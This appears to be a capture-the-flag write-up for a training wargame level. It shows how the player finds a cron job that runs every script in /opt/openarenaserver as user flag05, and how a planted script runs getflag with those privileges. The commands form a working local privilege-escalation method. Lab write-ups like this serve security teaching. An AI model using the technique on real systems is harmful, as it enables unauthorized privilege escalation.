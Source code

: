 # find a clue

The command ```find / -group level05 2>/dev/null``` lists nothing of interest but the command :
```find / -group flag05 2>/dev/null``` get this results :
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver

=> execute /usr/sbin/openarenaserver as flag05 ?

The command ```find / -name "level05" 2>/dev/null``` get these files :
/var/mail/level05
/rofs/var/mail/level05

```cat /var/mail/level05```
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

***this looks like a crontab syntax to execute the command every 2 minutes***
we can assume this crontab is in use for flag05 user

```find / -group mail 2>/dev/null```
/usr/bin/dotlockfile
/usr/bin/mail-lock
/usr/bin/mail-touchlock
/usr/bin/mail-unlock
/var/mail
/var/mail/level05

```cat /usr/sbin/openarenaserver```
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

This script execute any file in /opt/openarenaserver then delete it

we create a file in this directory that executes getflag ```echo "/bin/getflag > /tmp/flag" > /opt/openarenaserver/getflag```
we add permission to be executed : ```chmod +x /opt/openarenaserver/getflag```
after waiting 2 minutes the file /tmp/flag contains our flag : ```cat /tmp/flag```
